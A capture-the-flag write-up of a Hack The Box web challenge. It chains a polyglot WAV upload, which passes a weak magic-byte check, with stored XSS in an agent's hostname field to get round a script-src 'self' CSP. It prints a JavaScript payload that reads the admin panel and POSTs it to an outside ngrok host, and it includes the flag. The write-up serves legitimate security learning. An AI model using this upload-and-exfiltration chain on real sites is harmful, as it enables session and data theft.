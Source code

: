 One more login screen for the next challenge:

![image](https://user-images.githubusercontent.com/80063008/227709302-e2c0023c-fb15-466e-936e-4dccb557ccc1.png)

At first I analyzed the `spybug-agent.go` file which was provided initially. The full source code was provided later. From the agent code I could figure out some endpoints and some functionality.

![image](https://user-images.githubusercontent.com/80063008/227709560-d1e89851-c4f5-4121-868f-745b3d9ee05b.png)

For example, we have a `/agents/register` endpoint. This gives us two UUIDs. An identifier and a token.

![image](https://user-images.githubusercontent.com/80063008/227709545-db9b2da0-8d21-48b7-b9f7-7ac1cf6b7e9e.png)

On the `/agents/check/<identifier>/<token>` endpoint we can check the agent we just registered but we get nothing more than an OK.

![image](https://user-images.githubusercontent.com/80063008/227709622-5d527a9e-6103-46c3-b3e5-6f43ea1372b8.png)

We also have a POST request to `/agents/details/<identifier>/<token>` which takes some user input. We can send a "hostname", "platform", "arch".

![image](https://user-images.githubusercontent.com/80063008/227709678-6edeb7d1-bc6c-40c3-ba67-9b9037a61008.png)

I built that request in BurpSuite but again, we get nothing more than an OK:

![image](https://user-images.githubusercontent.com/80063008/227709738-14f7f831-58f2-4ef5-8c95-09d3f12423a1.png)

We have another function to an `/agents/upload/<identifier>/<token>` endpoint.

![image](https://user-images.githubusercontent.com/80063008/227709797-cfaab1dd-ccf6-441a-803f-16f30ca4606c.png)

This expects us to send a POST request to upload a wave file within a form-data request with the filename being "recording"

![image](https://user-images.githubusercontent.com/80063008/227709827-6835c5fb-27b7-46bd-bc18-49da270f0bc4.png)

I tried to do the multipart/form-data upload but I kept getting a `Bad Request` response. That is until they released the rest of the source code and I noticed this in `control-panel/routes/agents.js`:

![image](https://user-images.githubusercontent.com/80063008/227710300-8d7738e0-8883-471d-a2ae-baf7c5fa3b77.png)

The server expects a specific "audio/wave" mimetype and the ".wav" extension. We also notice another important part in the same file. There's an additional filter to the file upload.

![image](https://user-images.githubusercontent.com/80063008/227710128-a82d1000-9ddf-4f5b-a206-8bb98f503ab7.png)

The server checks the file header to ensure that it is a wave file. Or at least that is the intent. What it actually does is it only checks if the specific hex values are located anywhere in the file. It's not actually checking the file header. This means we can send a request like this and we no longer get a "Bad Request" error message. We actually get an UUID assigned to the file upload:

![image](https://user-images.githubusercontent.com/80063008/227710411-b952e25a-d000-4203-9b40-010114f93ad6.png)

In the `control-panel/utils/adminbot.js` we also notice that there's a bot accessing the admin panel. 

![image](https://user-images.githubusercontent.com/80063008/227710967-3b1b4a2f-aa63-4492-8139-19e7880bc324.png)

It doesn't click on anything though. At this point I wanted to have a look at the admin panel myself. I modified the `build-docker.sh` file to put a password in the ADMIN_SECRET variable:

![image](https://user-images.githubusercontent.com/80063008/227710551-35a4ff30-f2ec-4041-bc50-a8c380578f5c.png)

I logged in and now can see the admin panel with some content that I passed at a certain point. A POST request sending details and an upload:

![image](https://user-images.githubusercontent.com/80063008/227710597-595a083e-5c4a-42d1-9b29-2542621ec693.png)

Inspecting the audio controls, we can also see where it's taking it from:

![image](https://user-images.githubusercontent.com/80063008/227710902-bac8c224-804a-4fc1-96d0-8317f4a9d8be.png)

Now that I can see what the bot would see. I tried a simple XSS payload in the hostname field but I got blocked by the CSP:

![image](https://user-images.githubusercontent.com/80063008/227710622-7992f5a2-0f50-4bb8-83f1-b379a6989f54.png)

Let's take a closer look at that CSP. 

![image](https://user-images.githubusercontent.com/80063008/227710634-fe67ad11-a1fa-4001-8a8b-a567b48de469.png)

We have `script-src 'self'` but there's also `object-src 'none'`. After doing some research on various CSP bypasses, I found this very helpful blog: https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d

This blog presents various scenarios, including Scenario 5 which seems very applicable to us:

![image](https://user-images.githubusercontent.com/80063008/227710708-757af160-020c-47ee-bd9d-15092f87e37e.png)

Now it all makes sense. We have unsanitized input in the /agents/details endpoint and file upload which can be bypassed in /agents/upload. We should have what we need. 

**Step 1**: Register a new agent to get identifier and token:
![image](https://user-images.githubusercontent.com/80063008/227710772-66c30cc6-9462-4a36-b512-1abcca1679a7.png)

**Step 2**: Upload file with recording name in the form-data, .wav extension, audio/wave mimetype and the wav magic header anywhere in the file (it doesn't check for the magic bytes to be the first ones). I used // to comment it out in the javascript code so that javascript parsing won't error out. The javascript simply accessing the admin panel grabbing the response and sending it to our webhook.

```javascript
var target = 'http://localhost:1337/panel';
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;
var attack = 'https://5816-188-24-131-248.eu.ngrok.io';
var req2 = new XMLHttpRequest();
req2.open('POST', attack, false);
req2.send(response);
```
![image](https://user-images.githubusercontent.com/80063008/227710815-e6915a95-2557-4dab-a0a1-6a63d90ca7ae.png)

**Step 3**: Post details with the UUID filename within the XSS payload to load the javascript from the local source thus fulfilling the script-src "self" object-src 'none' CSP.

```
<script src=\"/uploads/076095a0-7b50-4dac-b6eb-9900062c5c68\"></script>
```
After a short while, waiting for the bot eagerly, we get the flag:

![image](https://user-images.githubusercontent.com/80063008/227710858-fda45a4f-9f88-42e6-849c-149e25fc1eb5.png)

All in all, this one was my favourite challenge as it presented multiple hurdles and steps where we really needed to think outside the box. Attention to detail every step of the way was important and I enjoyed that.

HTB{p01yg10t5_4nd_35p10n4g3}
